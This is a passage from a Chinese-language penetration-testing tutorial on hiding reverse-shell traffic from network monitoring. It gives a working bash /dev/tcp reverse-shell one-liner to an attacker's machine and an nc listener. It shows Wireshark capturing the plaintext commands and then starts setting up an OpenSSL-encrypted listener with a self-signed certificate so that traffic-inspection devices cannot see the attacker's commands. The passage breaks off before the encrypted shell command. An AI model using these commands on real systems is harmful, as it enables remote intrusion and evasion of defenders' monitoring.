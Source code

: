 ```
nc -lvp 2333
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DWkjM9wSGzuxmNnJ4EGmDVLfricK62qPGXHhX57c06SoMSQCcfWiaCgqQ/640?wx_fmt=png)  

Ubuntu 上面执行如下命令将自己的 shell 反弹到攻击机 kali 上去：

```
bash -c "bash -i>& /dev/tcp/192.168.0.100/2333 0>&1"
```

如下图所示，攻击机 kali 上成功拿到了 Ubuntu 的 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DkGhwUjkbENlr0rNAIbshqG5EtbicHa8LDfB0ZLk0y5RC7pf58efETlg/640?wx_fmt=png)

此时，在 Ubuntu 上使用 Wireshark 对当前使用的网卡（我这里是 ens33）进行流量抓包分析：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DWwa6kx46UN4wa0WIStcSasvbyDNqRgAUibb77dn0gn1DKeqUbanxB3Q/640?wx_fmt=png)

此时攻击者开始执行命令对控制目标主机：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DxQwQ4FIuEGN65Fdngsw0ekKqcJc02spIZnCchbia6icFhiblQGZ9209zQ/640?wx_fmt=png)

此时，受害者 Ubuntu 上的 wireshark 便会抓到一系列数据包，随便追踪一个的 TCP 流：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DLOoOVS3qpelh8zKBHWbT5jLurkWOavia0nj8gF0TqDJKaDTdGGsnQPA/640?wx_fmt=png)

可看到未加密的情况下，攻击机与目标机之间的通信都是明文传输的，所以流量设备可以很容易地查看到攻击者的行为记录的。

那么接下来将演示如何使用 OpenSSL 对 nc 进行流量加密。

### 1. 使用 OpenSSL 生成自签名证书

在使用 OpenSSL 对 nc 进行流量加密之前，需要先在攻击机上生成自签名证书：

```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车即可。成功生成后，在桌面有两个 pem 加密文件：  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7D1GOia30u1LSjFlZsXWOqQt3FtgdmiaibXK0t8LibeibOu8EyG6XQ7LuvkKw/640?wx_fmt=png)

### 2. 使用 OpenSSL 对 NC 流量进行加密

攻击机 kali 上面执行如下命令使用 OpenSSL 开启一个监听：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DZPW4YvKFj7y2B29ibPEbNOh0oraSNHv77iaxWMkKGIwdgTN8npl0MkDA/640?wx_fmt=png)

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

然后 Ubuntu 上面执行如下命令将自己的 shell 反弹到攻击机 kali 上去：
